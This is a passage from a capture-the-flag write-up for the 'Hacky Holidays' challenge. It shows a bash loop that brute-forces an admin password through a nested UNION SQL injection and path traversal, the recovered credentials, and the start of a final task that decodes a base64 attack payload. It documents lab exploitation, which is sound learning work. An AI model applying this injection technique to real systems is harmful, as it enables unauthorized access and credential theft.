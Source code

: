 ```bash
        do
                url="https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%22-1'%20UNION%20ALL%20SELECT%20%22-1'%20union%20all%20select%20NULL,NULL,%27../api/user?password=${found}${char}%%27--%20-%22,2,3--%20-"

                # extracting image path
                path=$(curl -s $url | awk -n '/<img class="img-responsive" src="/,/">/' | cut -d '"' -f4)

                img_url="https://hackyholidays.h1ctf.com${path}"
                if [[ $(curl -s $img_url) != "Expected HTTP status 200, Received: 204" ]]; then 
                        echo ${char}
                        found=${found}${char}
                        break 1
                fi
                ct=$(( ct+1 ))
        done
done
echo "Password: ${found}"
echo "Done!"
```

Yields:

```shell
Username: grinchadmin
Password: s4nt4sucks
```

And we can use this username and password to log in to "Attack Box", where we get the flag.
{F1133193}


## Flag 12 - The End Game - "Attack Server"

Objective - **Stop the DDOS Attack.**

URL -  **`https://hackyholidays.h1ctf.com/attack-box`**
This is the final day of the "Hacky Holidays" and Grinch is ready to launch a DDOS attack on Santa's Servers. 
{F1133194}

When we try to launch the attack, what it does is it passes a payload as a GET request, and then that URL is redirected to another to open up a web based terminal which pings the IP of the Santa's Server.

```
https://.../attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==
```

When we decode the payload it decodes to,

```json
{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}
```
